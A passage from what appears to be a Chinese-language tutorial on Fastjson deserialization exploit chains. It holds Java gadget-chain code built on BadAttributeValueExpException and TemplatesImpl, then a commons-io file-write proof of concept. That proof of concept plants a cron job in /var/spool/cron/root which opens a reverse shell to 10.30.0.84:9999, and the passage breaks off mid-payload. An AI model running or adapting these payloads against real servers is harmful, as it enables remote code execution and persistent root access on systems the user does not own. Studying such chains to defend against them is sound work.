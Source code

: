 ```

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd,"val",jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(templates,bd);
        return hashMap;
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    //将类序列化为字节数组
    public static byte[] tobyteArray(Object o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bao);
        oos.writeObject(o);   //
        return bao.toByteArray();
    }

    //字节数组转十六进制
    public static String bytesToHex(byte[] bytes) {
        StringBuffer stringBuffer = new StringBuffer();
        for (int i = 0; i < bytes.length; i++) {
            String hex = Integer.toHexString(bytes[i] & 0xff);      //bytes[]中为带符号字节-255~+255，&0xff: 保证得到的数据在0~255之间
            if (hex.length()<2){
                stringBuffer.append("0" + hex);   //0-9 则在前面加‘0’,保证2位避免后面读取错误
            }else {
                stringBuffer.append(hex);
            }
        }
        return stringBuffer.toString();
    }
}
```

### 3.2.6 commons-io写文件链

写文件利用链，常用于1.2.68及以上

计划任务的POC：

```
public static void main(String[] args) throws Exception {
    	String code = gzcompress("* * * * *  bash -i >& /dev/tcp/10.30.0.84/9999 0>&1 \n");
    	//<=1.2.68 and JDK11
        String payload = "{\r\n"
        		+ "    \"@type\":\"java.lang.AutoCloseable\",\r\n"
        		+ "    \"@type\":\"sun.rmi.server.MarshalOutputStream\",\r\n"
        		+ "    \"out\":\r\n"
        		+ "    {\r\n"
        		+ "        \"@type\":\"java.util.zip.InflaterOutputStream\",\r\n"
        		+ "        \"out\":\r\n"
        		+ "        {\r\n"
        		+ "           \"@type\":\"java.io.FileOutputStream\",\r\n"
        		+ "           \"file\":\"/var/spool/cron/root\",\r\n"
        		+ "           \"append\":false\r\n"
        		+ "        },\r\n"
```